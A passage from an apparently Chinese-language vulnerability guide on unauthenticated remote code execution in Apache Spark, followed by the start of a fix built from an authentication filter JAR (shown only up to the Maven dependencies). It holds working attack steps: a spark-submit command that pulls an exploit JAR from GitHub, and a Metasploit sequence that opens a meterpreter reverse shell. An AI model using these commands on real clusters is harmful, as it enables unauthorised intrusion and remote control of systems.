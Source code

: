 ```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest api来提交应用；如果发现不是rest服务器，则会降级到使用submission gateway来提交应用。

查看结果的方式与前面一致。

### **MSF**

```
msf5>use exploit/linux/http/spark_unauth_rce 
msf5>set payload java/meterpreter/reverse_tcp 
msf5>set rhost 192.168.100.2 
msf5>set rport 6066 
msf5>set lhost 192.168.100.1 
msf5>set lport 4444 
msf5>set srvhost 192.168.100.1 
msf5>set srvport 8080 
msf5>exploit
```

## 修复方案

### 创建认证filter对应的jar包

在idea中通过maven编译源码方式。

#### 添加maven依赖

创建maven项目后，pom.xml添加如下依赖：

```
 <dependencies>

        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.10</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.35</version>
        </dependency>

        <!-- logback 依赖 -->
        <dependency>
            <groupId>ch.qos.logback</groupId>
            <artifactId>logback-classic</artifactId>
            <version>1.2.3</version>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.11</version>
        </dependency>
```